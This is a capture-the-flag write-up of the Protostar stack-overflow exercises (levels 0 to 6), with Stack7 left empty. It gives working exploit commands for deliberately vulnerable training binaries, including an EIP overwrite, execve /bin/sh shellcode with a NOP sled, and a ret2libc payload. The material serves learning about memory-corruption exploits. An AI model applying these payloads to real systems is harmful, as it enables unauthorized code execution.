 # Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
![stack4_1](./images/stack4_1.png)     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    
![stack4_2](./images/stack4_2.png)
The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html) | [2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)    
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    
![stack5_1](./images/stack5_1.png)


## [Stack6](https://exploit-exercises.com/protostar/stack6/)
This challenge is a tough one. While looking at the hints, I just have the basic knowledge about those methods. I'm not so skillful at these methods. I have to learn some new stuff to pass this challenge.     
First, I went through the source code. This time, the program will validate the return address after getting buffer from Stdin. The validation is:    
```if((ret & 0xbf000000) == 0xbf000000) {..._exit(1);}```    
That means, if the return address starts with 0xbf, then the program will terminate. From previous challenges, we can know the our stack has the 0xbf addressses. Obviously, we cannot overwrite the EIP with an address in our controlled stack simply.     
We still gotta verify it (it's not mandatory but..Uh, I'm just curious). Again, use gdb to find out the addresses. For getpath() frame, EBP at 0xbffff808, EIP at 0xbffff80c. Buffer starts from 0xbffff7bc. The offset is 80. 
![stack6_1](./images/stack6_1.png)    
It's not surprise that it hits the "exit" branch. We have to think about another way to attack. So I first looked at [ret2libc](./readings/ret2libc.pdf). This is a very basic and detailed tutorial. So now I learn what we need to do is ret to the address of system() and pass "/bin/sh" as parameter. Let's have a try!    
I turned into gdb, set a bp, and run stack6. I just print out the stack using ```x/1000s $esp``` to find the "/bin/sh". Luckily, I found it as part of a string. The "/bin/sh" lies at 0xbfffffba. If you cannot find it, you can set "/bin/sh" as the value of an environment variable, and then use it. System()'s address is 0xb7ecffb0.    
![stack6_2](./images/stack6_2.png)    
Also _exit_ and _printf_ functions' address are also necessary. On my side, _exit_ is at 0xb7ec60c0, _printf_ is at 0xb7eddf90.
The structure of the input would be **padding|system()|exit()|"/bin/sh"**. Try it! Ooooops. Not working... The same problem: the address in may be differ from the real one. ([WHY?](http://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)) We can set exec-wrpper in gdb to solve the problem. (We may also look at Core Dump). I tried set a new environment variables with value "```////////////////////////////////////////////////////////////bin/sh```" to make it easier to hit this variable. (It does work)
Also, we can search '/bin/sh' in libc, so that we can avoid the unpredictable changes of environment variables.     
In gdb, at any breakpoint, use ```info proc map``` to find the address of loaded libs. 0xb7e9700 in this case. 
![stack6_3](./images/stack6_3.png)
Then go back to our bash, ``` strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh``` can help us to find the offset of '/bin/sh' in the lib, which is 0x11f3bf. Now we can easily know the address of "/bin/sh".
![stack6_4](./images/stack6_4.png)
Okay, let's do it again.    
```
python -c 'print "A"*80+"\xb0\xff\xec\xb7"+"\xc0\x60\xec\xb7"+"\xbf\x63\xfb\xb7"' > /tmp/stack6
cat /tmp/stack6; cat | ./stack6
```     
![stack6_5](./images/stack6_5.png)
Done!



## [Stack7](https://exploit-exercises.com/protostar/stack7/)
